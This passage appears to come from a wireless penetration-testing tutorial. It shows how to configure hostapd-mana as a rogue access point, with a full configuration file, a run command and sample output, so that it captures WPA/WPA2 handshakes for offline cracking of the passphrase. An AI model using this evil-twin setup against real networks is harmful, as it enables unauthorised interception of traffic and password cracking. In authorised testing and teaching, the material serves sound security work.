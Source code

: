 This will create a rogue access point that responds to all probe requests from clients.

From the output, we may observe a message like `AP-STA-POSSIBLE-PSK-MISMATCH`, which indicates that a client attempted to connect to `HackMe` using WPA, but the passphrase didn’t match our configuration ( `Anything`). Despite the mismatch, we can still capture the handshake and use it to brute-force the password. To capture the handshake, we need to modify the `hostapd.conf` file and disable the `MANA` mode since `hostapd-mana` does not support WPA/WPA2 handshake capture using `MANA` mode. This is because when MANA mode is enabled, hostapd-mana cannot reliably identify the SSID the client was trying to connect to.

We update the hostapd.conf file as below:

```configuration
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=HackMe
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=anything
mana_wpaout=handshake.hccapx

```

The key changes to the above config file includes the addition of `mana_wpaout=handshake.hccapx`, which saves the captured handshake to the specified file, the name of the `ssid` which client is probing for, and the removal of MANA mode, as it prevents reliable identification of the SSID being connected to. Once configured, we restart hostapd-mana with the updated configuration to capture the handshake data. This handshake can then be used for offline brute-forcing to crack the WPA passphrase.

```shell
hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured WPA/2 handshakes will be written to file 'handshake.hccapx'.
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED

wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: authenticated
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: associated (aid 1)
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e

```

Once the handshake is captured, we use the `hcxhash2cap` tool to convert it into a pcap file using the following command:
